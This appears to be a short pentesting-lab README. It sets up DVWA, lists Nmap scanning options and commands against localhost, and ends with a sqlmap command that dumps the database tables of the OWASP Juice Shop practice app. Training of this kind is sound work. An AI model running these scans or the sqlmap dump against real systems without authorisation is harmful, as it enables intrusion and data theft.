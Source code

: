## To initiate the environment, run the following command:
``` bash
docker compose -f dvwa_compose.yml up -d
```



### Nmap Scanning for Pentesters

### To scan networks, identify open ports, services, and vulnerabilities. It helps in gathering crucial information for attack planning.

#### Key Nmap Options:
- **`-sS` (SYN Scan)**: Performs a stealthy scan, sending SYN packets to detect open ports without completing a full TCP handshake, useful for avoiding detection.
- **`-sV` (Service Version Detection)**: Identifies the software version running on detected ports, crucial for finding outdated or vulnerable services.
- **`-O` (OS Detection)**: Attempts to determine the target's operating system, which is important for tailoring specific exploits or attacks.
- **`-p` (Port Range)**: Allows scanning of specific port ranges (e.g., `-p 80,443` for web services), optimizing scan time by focusing on critical ports.

#### Example Nmap Commands (using `127.0.0.1` as target IP):
- **Basic scan**: `nmap 127.0.0.1`
- **SYN scan on all ports**: `nmap -sS -p 1-65535 127.0.0.1`
- **Service version detection**: `nmap -sV 127.0.0.1`
- **OS detection**: `nmap -O 127.0.0.1`
- **Scan specific ports**: `nmap -p0-1000 127.0.0.1`




## To crack the juice shop, run the following command:
``` bash
python3 sqlmap-dev/sqlmap.py -r juice_shop_login_query.txt --ignore-code=401 --level=5 --risk=3 --technique=B --dbms=sqlite --dump --tables --threads 5;
```

